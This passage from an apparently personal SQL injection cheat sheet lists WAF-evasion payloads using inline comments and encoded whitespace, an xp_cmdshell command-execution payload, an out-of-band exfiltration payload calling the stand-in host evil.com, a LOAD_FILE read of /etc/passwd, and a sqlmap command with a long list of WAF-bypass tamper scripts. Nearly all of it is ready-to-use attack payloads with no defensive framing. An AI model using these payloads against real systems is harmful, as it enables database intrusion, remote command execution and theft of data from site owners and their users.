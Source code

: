 ### Inline Comments

**Inserting Inline Comments:**
```sql
' UNION/**/SELECT/**/NULL,NULL -- 
```

### Whitespace Manipulation

**Using Different Types of Whitespace Characters:**
```sql
' UNION%0D%0ASELECT%0D%0A NULL,NULL -- 
```

## 8. Exploiting Advanced Scenarios

### Stored Procedures

**Execute Arbitrary SQL:**
```sql
'; EXEC xp_cmdshell('whoami') --
```

### Out-of-Band SQL Injection

**Exfiltrate Data via DNS or HTTP Requests:**
```sql
'; EXEC master..xp_dirtree '\\evil.com\payload' --
```

### Leveraging Privileges

**Reading or Writing Files:**
```sql
' UNION SELECT LOAD_FILE('/etc/passwd') --
```

## 9. Automation and Custom Scripts

### Custom SQLMap Commands

Bypass WAFs or target specific injection points:
```bash
sqlmap -u "http://example.com/vulnerable.php?id=1" --tamper=space2comment --level=5 --risk=3
```

**Some Tamper Scripts I use:** 
```bash
tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,

randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
```
